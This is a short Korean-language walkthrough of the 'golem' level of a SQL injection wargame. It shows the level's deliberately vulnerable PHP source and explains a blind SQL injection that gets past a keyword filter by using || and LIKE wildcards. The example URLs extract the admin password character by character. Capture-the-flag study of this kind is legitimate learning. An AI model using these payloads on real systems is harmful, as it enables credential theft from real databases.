

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
이번에도 bling sql injection을 이용하면 되지만 substr이 필터링당하였다.
그래서 방법을 바꿔야한다. LENGTH로 길이를 알아낸 후 정규식 특수문자 %을 이용해서
https://los.eagle-jump.org/golem_3~7.php?pw=' || id like 'admin' %26%26 pw like ‘8% 을 입력해서 참값을 반환받는다면 첫글자는 8 이고
https://los.eagle-jump.org/golem_3~7.php?pw=' || id like 'admin' %26%26 pw like ‘88% 을 입력해서 참값을 받환받는다면 두번째 글자도 8일것이다. 이런식으로 자동화 프로그램을 만들면 풀 수 있다.

query : select id from prob_golem where id='guest' and pw=''